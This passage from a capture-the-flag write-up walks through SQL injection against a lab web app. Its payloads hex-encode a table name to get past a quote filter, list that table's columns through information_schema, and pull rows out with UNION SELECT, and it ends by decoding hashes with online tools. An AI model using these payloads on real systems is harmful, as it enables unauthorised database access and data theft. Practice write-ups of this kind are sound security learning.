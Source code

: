 **✅ Result:**

<img width="1433" height="812" alt="Capture d’écran 2025-08-21 à 19 13 24" src="https://github.com/user-attachments/assets/d278ebc2-db18-45b9-8f7b-c4bef8049a48" />


* Among results, the table **list\_images** stood out.
* Likely contains valuable data related to the flag.

---

#### 4️⃣ Bypassing Quote Restrictions — Hexadecimal Trick

* The app filtered quotes, so strings had to be converted to **hex**.
* Example: `'list_images' → 0x6c6973745f696d61676573`

**Payload used:**

```
1 UNION SELECT column_name, null 
FROM information_schema.columns 
WHERE table_name=0x6c6973745f696d61676573 --
```

**✅ Result:**

<img width="1316" height="798" alt="Capture d’écran 2025-08-21 à 19 14 19" src="https://github.com/user-attachments/assets/cb953c1a-7a3f-415c-91d2-fe825a655ef4" />

* Successfully enumerated all columns of `list_images`: `id`, `title`, `url`, `comment`.

---

#### 5️⃣ Extracting Table Content

* With column names known, extracted two fields at a time.

**Payload used:**

```
1 UNION SELECT id, comment FROM list_images
```

**✅ Result:**

<img width="1169" height="621" alt="Capture d’écran 2025-08-21 à 19 16 10" src="https://github.com/user-attachments/assets/adee64c0-bc32-448a-9013-af2c37e02502" />

* Exposed additional data, including partial flag hints.

---

**✅ Result:**

* MD5 : https://md5decrypt.net/
  <img width="1436" height="504" alt="Capture d’écran 2025-08-21 à 19 19 10" src="https://github.com/user-attachments/assets/a28a3540-e526-4af2-af15-75398c00a56f" />

* SHA-256 : https://emn178.github.io/online-tools/sha256.html

<img width="1440" height="784" alt="Capture d’écran 2025-08-21 à 19 20 43" src="https://github.com/user-attachments/assets/2d57c175-49d5-41b1-85fc-d1da1705568f" />

---

